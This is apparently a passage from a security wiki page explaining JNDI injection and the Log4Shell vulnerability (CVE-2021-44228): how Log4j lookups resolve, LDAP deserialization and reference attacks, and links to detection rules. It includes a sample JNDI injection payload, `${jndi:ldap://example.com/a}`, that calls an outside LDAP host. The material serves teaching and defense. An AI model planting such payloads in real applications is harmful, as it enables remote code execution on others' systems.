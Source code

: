 In case you can **make an app resolve a JNDI LDAP UR**L, you can control the LDAP that will be searched, and you could send back the exploit (log4shell).

#### Deserialization exploit

![](<../../.gitbook/assets/image (654) (1) (1) (1).png>)

The **exploit is serialized** and will be deserialized.\
In case `trustURLCodebase` is `true`, an attacker can provide his own classes in the codebase if not, he will need to abuse gadgets in the classpath.

#### JNDI Reference exploit

It's easier to attack this LDAP using **JavaFactory references**:

![](<../../.gitbook/assets/image (660) (1) (1).png>)

## Log4Shell Vulnerability

The vulnerability is introduced in Log4j because it supports a [**special syntax**](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) in the form `${prefix:name}` where `prefix` is one of a number of different [**Lookups**](https://logging.apache.org/log4j/2.x/manual/lookups.html) where `name` should be evaluated. For example, `${java:version}` is the current running version of Java.

[**LOG4J2-313**](https://issues.apache.org/jira/browse/LOG4J2-313) introduced a `jndi` Lookup feature. This feature enables the retrieval of variables through JNDI. Typically, the key is automatically prefixed with `java:comp/env/`. However, if the key itself includes a **":"**, this default prefix is not applied.

With a **: present** in the key, as in `${jndi:ldap://example.com/a}` there’s **no prefix** and the **LDAP server is queried for the object**. And these Lookups can be used in both the configuration of Log4j as well as when lines are logged.

Therefore, the only thing needed to get RCE a **vulnerable version of Log4j processing information controlled by the user**. And because this is a library widely used by Java applications to log information (Internet facing applications included) it was very common to have log4j logging for example HTTP headers received like the User-Agent. However, log4j is **not used to log only HTTP information but any input** and data the developer indicated.

## Overview of Log4Shell-Related CVEs

### [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) **\[Critical]**

This vulnerability is a critical **untrusted deserialization flaw** in the `log4j-core` component, affecting versions from 2.0-beta9 to 2.14.1. It allows **remote code execution (RCE)**, enabling attackers to take over systems. The issue was reported by Chen Zhaojun from Alibaba Cloud Security Team and affects various Apache frameworks. The initial fix in version 2.15.0 was incomplete. Sigma rules for defense are available ([Rule 1](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j\_fields.yml), [Rule 2](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j.yml)).
